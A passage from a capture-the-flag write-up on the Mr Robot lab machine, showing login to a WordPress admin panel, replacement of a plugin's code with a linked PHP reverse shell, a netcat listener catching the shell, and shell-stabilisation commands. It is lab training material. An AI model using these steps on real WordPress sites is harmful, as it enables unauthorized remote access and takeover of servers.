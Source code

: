 ```
```

We now have the password for user Elliot ! Let's try to login on the wordpress admin panel with those credentials :  
![](https://i.imgur.com/H61mKaB.jpg)  

We are logged in !

## Get a reverse shell

After some reasearch, I found somewhere to put a php reverse shell. We can edit almost any plugin source code and replace it with a reverse shell. Let's go 
to the `Plugins` tab :  
![](https://i.imgur.com/379S5PU.jpg)  

Now, for example, we can click on the `Edit` button under the plugin `All in One SEO Pack` :  
![](https://i.imgur.com/x93QmcC.jpg)  

We can replace the source code with a php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Don't 
forget to change the listening IP adress and port :  
![](https://i.imgur.com/Fv24mn0.jpg)  

Let's save it by clicking the `Update File` button. Then, we can note the file name shown at the right of the screen :  
![](https://i.imgur.com/qmBqrtz.jpg)  

Let's start a listener on our machine :  
```
attacker@AttackBox:~/Mr_Robot_CTF$ nc -lnvp 4242
listening on [any] 4242 ...
```

Then, we can navigate to `http://[IP]/wp-content/plugins/` + plugin file name. So for me it's http://10.10.241.169/wp-content/plugins/all-in-one-seo-pack/all_in_one_seo_pack.php. 
After this, we can take a look at our netcat listener and see if we have a shell :  
```
attacker@AttackBox:~/Mr_Robot_CTF$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.241.169] 47572
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:59:49 up  2:26,  0 users,  load average: 0.00, 0.07, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

We now have a reverse shell ! Let's stabilize it by using `python3 -c 'import pty; pty.spawn("/bin/bash")'`, then we press CTRL+Z to background the shell, and we type 
`stty -echo raw;fg`. To be able to use `clear`, we can type `export TERM=xterm`. Now we have a fully stabilized shell !
